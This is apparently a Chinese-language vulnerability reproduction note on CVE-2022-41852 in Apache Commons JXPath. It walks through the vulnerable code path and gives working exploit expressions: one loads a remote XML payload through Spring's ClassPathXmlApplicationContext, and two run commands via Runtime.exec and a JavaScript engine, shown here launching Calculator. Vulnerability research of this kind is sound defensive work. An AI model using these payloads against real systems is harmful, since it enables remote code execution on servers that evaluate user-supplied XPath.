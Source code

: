 # CVE-2022-41852 Apache Commons JXPath 远程代码执行漏洞

# 0x00 概述

## 漏洞描述

Apache JXPath 在解析用户提供的XPath表达式时，若使用了JXPathContext中除compile和compilePath之外的函数来解析XPath表达式时，会导致远程代码执行漏洞。

## 影响范围

全版本

# 0x01 环境

```xml
<dependency>
  <groupId>commons-jxpath</groupId>
  <artifactId>commons-jxpath</artifactId>
  <version>1.3</version>
</dependency>
```

# 0x02 复现

执行方式很多，给出几个例子

```java
public class RceDemo {
    public static class User {
        String name;

    }

    public static void main(String[] args) {
        JXPathContext jxPathContext = JXPathContext.newContext(new User());
        Object object = jxPathContext.getValue("org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:1234/payload.xml\")");
    }
}
```

# 0x03 分析

jxpath 其设计逻辑就是从表达式语言的角度出发，存在动态执行代码的能力，

跟进 `org.apache.commons.jxpath.ri.JXPathContextReferenceImpl#getValue()` 方法最终来到 `org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue()` 当中，在获取到 function 实现后，会去调用具体的 invoke 实现，即 ConstructorFunction 与 MethodFunction。

![image-20231008095949607](attachments/image-20231008095949607.png)

ConstructorFunction 与 MethodFunction 这两个方法提供了实例化构造函数和反射执行方法的能力，实例化方法就能想到通过 `org.springframework.context.support.ClassPathXmlApplicationContext` 加载远程 xml 实现反序列化。



而官方还提供了 demo 

```
String firstName = (String)context.getValue("getAuthorsFirstName($book)");
```

所以可以直接构造 Runtime 或 ScriptEngineManager 实现更简单的利用

```java
jxPathContext.getValue("exec(java.lang.Runtime.getRuntime(),'open -a Calculator')");
       jxPathContext.getValue("eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec(\"open -a Calculator\")')");
```







